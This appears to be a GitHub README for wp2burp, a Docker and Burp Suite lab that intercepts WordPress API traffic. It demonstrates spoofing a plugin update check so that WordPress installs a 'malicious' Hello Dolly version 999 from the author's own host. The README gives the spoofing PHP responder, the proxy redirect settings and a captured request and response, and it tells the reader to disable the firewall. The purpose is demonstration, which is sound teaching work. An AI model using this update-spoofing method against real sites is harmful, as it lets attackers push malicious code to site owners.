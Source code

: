 # wp2burp

Intercept WordPress requests with Burp Suite

---

Allows you to deploy WordPress instance in Docker, see all requests to WordPress API (api.wordpress.org) in Burp Suite, intercept requests & responses. 

Especially useful to demonstrate how the plugin update work. In the example, we will spoof the update for the "Hello Dolly" WordPress Plugin, and instead of the official one, malicious version 999 hosted on our server will be downloaded & installed.

## Installation

1) Open `Burp Suite` and edit the `Proxy Listener` to listen on `All Interfaces`
    - _Proxy > Options > Proxy Listeners > Edit > All Interfaces > OK_

2) Edit `docker-compose.yml` and change IP of the `Proxy Listener`
    - _- "burp:10.10.10.254" # Burp Suite proxy IP_

3) Make sure that `Firewall` is not blocking access to `Proxy Listener`
    - _$ sudo ufw disable_

4) Run `Docker`, install `WordPress` and `Burp Suite` certificate
```bash
$ git clone https://github.com/vavkamil/wp2burp.git
$ cd wp2burp/
$ sudo chmod +x bin/install-wp.sh
$ sudo chmod +x bin/burp.sh
$ docker-compose up -d --build
$ docker-compose run --rm --user 33:33 wp-cli install-wp
$ docker exec -ti wp2burp_wordpress_1 /var/www/html/burp.sh
```

4) Visit the [WordPress instance](http://127.0.0.1:31337/wp-login.php) and login with `admin:admin`
    - _You should see all internal WordPress requests in Burp HTTP history tab_

## Usage

1) Open `Burp Suite` and edit the `Proxy Listener` to `redirect all requests received by listener`
    - _Proxy > Options > Proxy Listeners > Edit > Request handling_
      - _Redirect to host: xss.vavkamil.cz_
      - _Redirect to port: 443_
      - _Force use of TLS_
2) Edit `Match and Replace` to spoof the `Host` header
    - _Proxy > Options > Match and Replace > Add_
      - _Type: Request header_
      - _Match: api.wordpress.org_
      - _Replace: xss.vavkamil.cz_
3) Create route on `your web server` to respond to `plugin update checks`:
```bash
$ cat plugins/update-check/1.1/index.php

<?php
  header('Access-Control-Allow-Origin: *');
  header('Content-type: application/json');

  $response = array(
    "plugins" => array(
      "hello.php" => array(
        "new_version" => "999",
        "package" => "https://xss.vavkamil.cz/plugins/exploit.zip",
      ),
    ),
  );

  echo json_encode($response); 
?>
```

You should be able to intercept the WordPress requests asking for available plugin updates and respond with a spoofed response.

## Example

### Request

```
POST /plugins/update-check/1.1/ HTTP/2
Host: api.wordpress.org
User-Agent: WordPress/5.3; http://127.0.0.1:31337/
Accept: */*
Accept-Encoding: gzip, deflate
Referer: https://api.wordpress.org/plugins/update-check/1.1/
Connection: close
Content-Length: 1778
Content-Type: application/x-www-form-urlencoded
Expect: 100-continue

plugins=%7B%22plugins%22%3A%7B%22akismet%5C%2Fakismet.php%22%3A%7B%22Name%22%3A%22Akismet+Anti-Spam%22%2C%22PluginURI%22%3A%22https%3A%5C%2F%5C%2Fakismet.com%5C%2F%22%2C%22Version%22%3A%224.1.3%22%2C%22Description%22%3A%22Used+by+millions%2C+Akismet+is+quite+possibly+the+best+way+in+the+world+to+%3Cstrong%3Eprotect+your+blog+from+spam%3C%5C%2Fstrong%3E.+It+keeps+your+site+protected+even+while+you+sleep.+To+get+started%3A+activate+the+Akismet+plugin+and+then+go+to+your+Akismet+Settings+page+to+set+up+your+API+key.%22%2C%22Author%22%3A%22Automattic%22%2C%22AuthorURI%22%3A%22https%3A%5C%2F%5C%2Fautomattic.com%5C%2Fwordpress-plugins%5C%2F%22%2C%22TextDomain%22%3A%22akismet%22%2C%22DomainPath%22%3A%22%22%2C%22Network%22%3Afalse%2C%22RequiresWP%22%3A%22%22%2C%22RequiresPHP%22%3A%22%22%2C%22Title%22%3A%22Akismet+Anti-Spam%22%2C%22AuthorName%22%3A%22Automattic%22%7D%2C%22hello.php%22%3A%7B%22Name%22%3A%22Hello+Dolly%22%2C%22PluginURI%22%3A%22http%3A%5C%2F%5C%2Fwordpress.org%5C%2Fplugins%5C%2Fhello-dolly%5C%2F%22%2C%22Version%22%3A%221.7.2%22%2C%22Description%22%3A%22This+is+not+just+a+plugin%2C+it+symbolizes+the+hope+and+enthusiasm+of+an+entire+generation+summed+up+in+two+words+sung+most+famously+by+Louis+Armstrong%3A+Hello%2C+Dolly.+When+activated+you+will+randomly+see+a+lyric+from+%3Ccite%3EHello%2C+Dolly%3C%5C%2Fcite%3E+in+the+upper+right+of+your+admin+screen+on+every+page.%22%2C%22Author%22%3A%22Matt+Mullenweg%22%2C%22AuthorURI%22%3A%22http%3A%5C%2F%5C%2Fma.tt%5C%2F%22%2C%22TextDomain%22%3A%22%22%2C%22DomainPath%22%3A%22%22%2C%22Network%22%3Afalse%2C%22RequiresWP%22%3A%22%22%2C%22RequiresPHP%22%3A%22%22%2C%22Title%22%3A%22Hello+Dolly%22%2C%22AuthorName%22%3A%22Matt+Mullenweg%22%7D%7D%2C%22active%22%3A%5B%5D%7D&translations=%5B%5D&locale=%5B%5D&all=true
```

### Response

```
HTTP/2 200 OK
Date: Sun, 10 Oct 2021 19:13:57 GMT
Content-Type: application/json
Access-Control-Allow-Origin: *
Cf-Cache-Status: DYNAMIC
Expect-Ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=NpTdm3rT6Twj%2FvltPnM2Lb627HEIH4tcXE%2FTqUW0ZSqB7QQlDef1ttcmizy5cx2qcGwpKR%2BmudmYA0tp0G5QVEJ8G4%2Fu%2Bh07GKDQfbBYlJext3lDiKXRNB0EHIi3lD35oLk%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
Cf-Ray: 69c22b4018442794-PRG
Alt-Svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400, h3-28=":443"; ma=86400, h3-27=":443"; ma=86400

{"plugins":{"hello.php":{"new_version":"999","package":"https:\/\/xss.vavkamil.cz\/plugins\/exploit.zip"}}}
```

### Screenshot

![](screenshot.png)

## Shell

```bash
$ docker exec -ti wp2burp_wordpress_1 /bin/bash
```

